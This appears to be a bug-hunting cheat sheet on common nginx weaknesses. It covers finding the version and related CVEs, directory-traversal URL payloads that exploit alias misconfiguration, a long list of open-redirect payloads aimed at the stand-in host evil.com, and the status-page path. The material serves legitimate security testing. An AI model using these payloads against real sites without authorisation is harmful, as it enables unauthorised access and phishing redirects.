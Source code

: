```yaml
---
title: nginx hacktricks
tags: [bug hunting, nginx]
categories: [bug hunting, nginx]
date: 2022-02-03 11:33:00
---
```




# Nginx Common Bugs

## Introduction
What would you do if you came across a website that uses Nginx?

## How to Detect
Usually in the HTTP response there is a header like this `Server: nginx`

1. Find the related CVE by checking nginx version
* How to find the nginx version

By checking the response header or using 404 page, sometimes the version is printed there. If you found outdated nginx version, find the CVEs at [CVE Details](https://www.cvedetails.com/vulnerability-list/vendor_id-315/product_id-101578/F5-Nginx.html)

2. Directory traversal
```
https://example.com/folder1../folder1/folder2/static/main.css
https://example.com/folder1../%s/folder2/static/main.css
https://example.com/folder1/folder2../folder2/static/main.css
https://example.com/folder1/folder2../%s/static/main.css
https://example.com/folder1/folder2/static../static/main.css
https://example.com/folder1/folder2/static../%s/main.css
```

3. Open redirect
This is because of misconfiguration
```
https://example.com/%5cevil.com
https://example.com////\;@evil.com
https://example.com////evil.com
https://example.com///evil.com
https://example.com///evil.com/%2f%2e%2e
https://example.com///evil.com@//
https://example.com///{{RootURL}}evil.com/%2f%2e%2e
https://example.com//;@evil.com
https://example.com//\/evil.com/
https://example.com//\@evil.com
https://example.com//\evil.com
https://example.com//\tevil.com/
https://example.com//evil.com/%2F..
https://example.com//evil.com//
https://example.com//evil.com@//
https://example.com//evil.com\tevil.com/
https://example.com//https://evil.com@//
https://example.com/<>//evil.com
https://example.com/\/\/evil.com/
https://example.com/\/evil.com
https://example.com/\evil.com
https://example.com/evil.com
https://example.com/evil.com/%2F..
https://example.com/evil.com/
https://example.com/evil.com/..;/css
https://example.com/https:evil.com
```

4. Nginx status page
```
https://example.com/nginx_status
```
